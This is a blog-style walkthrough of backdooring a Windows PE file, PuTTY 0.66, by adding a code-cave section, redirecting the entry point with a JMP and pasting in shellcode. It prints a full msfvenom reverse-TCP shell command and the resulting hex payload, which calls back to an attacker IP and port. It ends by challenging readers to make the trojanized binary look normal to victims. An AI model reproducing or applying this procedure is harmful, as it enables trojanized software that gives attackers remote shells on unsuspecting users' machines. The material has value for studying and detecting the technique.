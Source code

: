 ```yaml
---
layout: single
title: Code caving & backdooring Windows PE files - Windows memory manipulation and execution flow hijacking
---
```


Code caving is a technique deployed by threat actors to run malicious shellcode within the valid PE space of a regular program. It's a technique where an actor discovered a un-used or non-optimized part of code within a compiled program that they can use via hijacking the execution flow to point to this location that has shellcode allocated in it. Which can lead to the application executing a malicious shellcode payload.

### Thanks Wikipedia
> A code cave is a series of null bytes in a process's memory. The code cave inside a process's memory is often a reference to a section of the code's script functions that have the capacity for the injection of custom instructions. For example, if a script's memory allows for five bytes and only three bytes are used, then the remaining two bytes can be used to add additional code to cript without making significant changes. 

---

This walkthrough will be utilizing an older version of Putty, Putty v0.66, which can be downloaded from [here](https://www.chiark.greenend.org.uk/~sgtatham/putty/releases/0.66.html).

----

**Our exploitation & backdooring workflow**

Our workflow is as follows. 

1. We add another section to the binary and fill it up with empty space, also give it the name of our choosing.
2. Find the entry point for the binary
3. Find the address of your newly created section in the binary
4. Write your msfvenom shellcode payload to the empty created section
5. Re-write the empty point as a JMP to the malicious section.
6. Have the shellcode return execution back to the normal flow
6. Patch and save the binary

----

**Binary section analysis & creation**

We can start by opening up putty.exe within CFF Explorer to view the PE data. CFF Explorer will give us plenty of details about the binary, the important part is the sections tab. This technique is to add a malicious section to the binary. 

![code caving 1](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/code_caving_1.png)

Open up the section headers tab and we need to add a new header, this header will be utilized for malicious purposes. Go to `Section Headers [x]` > Right-click and select `Add Section (Empty Space)`, and adjust the size of the section to 1000 spaces. Then name your new section header. I will be naming it `.shell`. Adding these spaces will allow the program to be sen as a legitimate application instead of just throwing you an error and crashing if you don't have data. This blank data will also be utilized soon.

![code caving 2](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/code_caving_2.png)

----

**Debugging the application**

Now we can open up our new binary in Immunity Debugger. If you run the application it will show "Program entry point" on the bottom left of Immunity, this is what we want to hijack to point to our soon to be malicious `.shell` segment.

![code caving 3](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/code_caving_3.png)

From here you copy the `.shell` section headers address and edit the Program entry point to a `JMP <SECTION ADDRESS>`. 

![code caving 4](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/code_caving_4.png)

![code caving 5](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/code_caving_5.png)

Now you can press `F7` and step into the newly edited JMP call, this will lead to the new section we created.

![code caving 6](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/code_caving_6.png)

Now you also want to edit the new section in Immunity and add a `PUSHFD` to the start of your malicious new section. Assemble it when done.

----

**Malicious payload creation**

Now you can generate your msfvenom payload, use a `EXITFUNC=seh` to ensure it handles proper exiting to add to the stability and reliability of your shell. Generate it in hex format since it's going to be directly pasted into the binary/machine code.

```
└─▪ ./msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.81 LPORT=9999 -f hex EXITFUNC=seh
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of hex file: 648 bytes
fce8820000006089e531c0648b50308b520c8b52148b72280fb74a2631ffac3c617c022c20c1cf0d01c7e2f252578b52108b4a3c8b4c1178e34801d1518b5
92001d38b4918e33a498b348b01d631ffacc1cf0d01c738e075f6037df83b7d2475e4588b582401d3668b0c4b8b581c01d38b048b01d0894424245b5b6159
5a51ffe05f5f5a8b12eb8d5d6833320000687773325f54684c772607ffd5b89001000029c454506829806b00ffd5505050504050405068ea0fdfe0ffd5976
a05680a000051680200270f89e66a1056576899a57461ffd585c0740cff4e0875ec68f0b5a256ffd568636d640089e357575731f66a125956e2fd66c74424
3c01018d442410c60044545056565646564e565653566879cc3f86ffd589e04e5646ff306808871d60ffd5bbfe0e32ea68a695bd9dffd53c067c0a80fbe07
505bb4713726f6a0053ffd5
```
You you can now copy past this into Immunity Debugger into your new malicious section.

![code caving 7](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/code_caving_7.png)

----

**Obtain a shell**

You can run it within Immunity, but if you want to export the now backdoored file, you just need to save the patched file and run it to obtain that sweet reverse shell.

![code caving 8](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/code_caving_8.png)

I do wonder if this would get detected by anti-virus.... This technique is old and highly detected, an attacker would need to further protect their binary from AV detection if they wanted this to actually work.

![code caving 9](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/code_caving_9.png)

----

**Conclusion**

This post covered a fairly simple technique for backdooring a Windows PE binary, using execution flow highjacking and PE section create, we can plant a malicious shellcode payload within a normal binary, have it execute our shell, and give an attacker remote access to the victims system via them running a binary they think is supposed to be normal.

*Further research*

As a challenge to anyone who reads this, try to have the malicious payload redirect it's execution flow back to the normal application so it loads as a normal binary should, this will add the elusion that nothing wrong is occurring when a victim runs the application.
